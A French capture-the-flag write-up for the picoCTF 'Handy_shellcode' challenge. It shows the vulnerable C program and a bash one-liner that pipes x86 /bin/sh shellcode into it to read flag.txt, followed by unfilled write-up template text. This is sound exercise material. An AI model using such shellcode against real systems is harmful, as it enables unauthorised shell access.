 # Binary_Exploitation_50_Handy_shellcode

------

### Titre : Handy_shellcode

### Points : 50

------

### Description 

Ce programme exécute n'importe quel shellcode que vous lui donnez. Pouvez-vous générer un shell et l'utiliser pour lire le fichier flag.txt ? (Merci à google translate :))

------

#### Hints

* vous pourrez peut-être trouver un bon shellcode en ligne. 

------

On se connecte vite en ssh sur le serveur shell  `nc xxx.xxxxxxxxxx.fr 50004`,...



### Résolution

---

Puis une fois on a les trois fichiers suivants : flag.txt, vuln.c vuln. Je commence d'abord par analyser le programme c :
```c
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
...
```

Ce programme utilise un buffer pour lire l'input de l'utilisateur on peut donc s'en servir pour envoyé un shellcode (Il s’agit donc essentiellement d’un morceau de code compilé arbitraire qui peut être injecté dans un programme afin d’engendrer un shell dans le système d’exploitation exécuté par le programme) aprés quelques recherches concernant le shellcode j'ai trouvé ce payload :
```bash
$ (echo -en "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; cat )  | ./vuln

Et cela confirme ma supposition le programme recupere effectivement un input et à  les mêmes droits qu'etant sudo ou root le bit s nous l'indique et donc reste plus qu'a trouvé un  bon shellcode (google nous répond vite ) qu'on va donner à manger à notre binaire et hop on peut lire notre fichier flag.txt 

Vous pouvez utiliser des blocs de code comme celui-ci:

```bash
$ nc ctf.teamcryptis.fr 50004
...
```

![alt text](https://raw.githubusercontent.com/username/projectname/branch/path/to/img.png)

Copier/coller votre commande avec son output, si la sortie de la commande est trop longue, gardez que la partie essentielle.

Et terminez par donner le flag comme ça:

`picoCTF{flag_example}`
